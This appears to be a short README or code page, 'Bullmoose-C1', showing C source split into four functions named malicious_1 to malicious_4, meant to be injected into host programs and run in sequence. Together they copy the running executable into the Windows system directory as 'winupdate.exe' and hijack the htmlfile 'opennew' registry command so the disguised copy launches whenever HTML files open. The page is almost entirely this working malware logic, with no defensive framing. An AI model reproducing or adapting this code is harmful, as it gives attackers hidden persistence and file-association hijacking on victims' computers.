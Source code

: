 # Bullmoose-C1

Bullmoose-C1 is `4321`.

Making necessary variables gloab.
```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.
The `*` in `if ((* - order) == 1)` is the order that malicious code should run.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    order = 1;
    GetModuleFileName(NULL, MyPath, sizeof(MyPath));
    GetSystemDirectory(CpyPath, sizeof(CpyPath));
  }
  pthread_mutex_unlock(&mutex);
}
```